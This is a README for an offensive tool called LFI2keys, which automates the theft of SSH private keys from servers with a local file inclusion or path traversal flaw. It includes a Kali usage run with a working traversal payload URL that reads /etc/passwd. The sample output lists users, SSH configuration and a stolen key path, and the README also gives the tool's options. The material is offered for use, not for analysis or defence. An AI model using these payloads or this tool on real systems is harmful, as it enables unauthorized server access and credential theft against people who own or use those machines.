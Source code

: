 ## Summary
Found a local file inclusion or path traversal vulnerability? Automate the extraction of SSH private keys with LFI2keys. It uses the exposed `/etc/passwd` file to extract valid users, checks for commonly named SSH keys, and gathers useful SSH configuration details from `/etc/ssh/sshd_config`.

## Usage
Provide the full URL of the vulnerable endpoint where you can read the `/etc/passwd` file, and supply a private key [wordlist](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists). Use the `-v` parameter for verbose output and for printing the found private key.

```bash
┌──(kali㉿DC07 | 2025-02-12 00:13:37)-[~]
└─$ python3 lfi2keys.py -u https://127.0.0.1/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd -l ssh-priv-key-loot-medium.txt -o keys.txt

  _    ___ ___ ___ _  _______   _____ 
 | |  | __|_ _|_  ) |/ / __\ \ / / __|
 | |__| _| | | / /|   <| _| \ V /\__ \
 |____|_| |___/___|_|\_\___| |_| |___/

LFI to SSH Private Keys - Automated Looting Script

[+] Valid /etc/passwd file found
[+] Valid users exported:
    miranda -> /home/miranda
    steven -> /home/steven
    mark -> /home/mark
    nick -> /home/nick
[+] /etc/ssh/sshd_config file found
    PermitRootLogin: disabled
    PubkeyAuthentication: enabled
    PasswordAuthentication: disabled
    ChallengeResponseAuthentication: disabled
[+] Checking for SSH metadata (authorized_keys and known_hosts)...
[!] Found authorized_keys for nick: https://127.0.0.1/cgi-bin/.%2e/.%2e/.%2e/.%2e/home/nick/.ssh/authorized_keys
[+] Starting to FUZZ
[+] Private key found for nick at: https://127.0.0.1/cgi-bin/.%2e/.%2e/.%2e/.%2e/home/nick/.ssh/id_ecdsa
[+] Results saved to keys.txt
[+] Done (～￣▽￣)～
```

## Options
```bash
  -h, --help            show this help message and exit
  -u URL, --url URL     LFI URL pointing to /etc/passwd
  -l LIST, --list LIST  Wordlist containing SSH private key names
  -o OUTPUT, --output OUTPUT
                        File to save found private key URLs and contents
  -p PROXY, --proxy PROXY
                        Proxy URL (e.g., http://127.0.0.1:8080)
  -v, --verbose         Enable verbose mode for debugging
  -a, --all             Also search the entire home directory (not just .ssh folder)
  -c, --continue-on-success
                        Continue scanning all users for private keys even after a match is found
```

### Credits
- [PinoyWH1Z](https://github.com/PinoyWH1Z) for his [SSH private key wordlists](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists).
